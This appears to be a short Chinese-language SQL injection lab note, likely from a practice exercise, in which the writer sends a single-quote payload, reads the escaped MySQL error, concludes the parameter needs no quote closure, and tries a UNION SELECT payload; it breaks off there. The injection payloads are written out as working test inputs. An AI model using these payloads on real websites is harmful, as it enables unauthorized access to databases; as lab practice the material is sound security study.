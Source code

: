 测试单引号

```
?id=99'

报错
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' LIMIT 0,1' at line 1 
```

判断为无 引号，括号闭合。

因为唯一的'在报错里已经被转义了。 看不到其他引号啥的。





```
?id=99 union select 1,2,3 --+
这里order by测回显，无输出，
改用union select测试下。
```

 

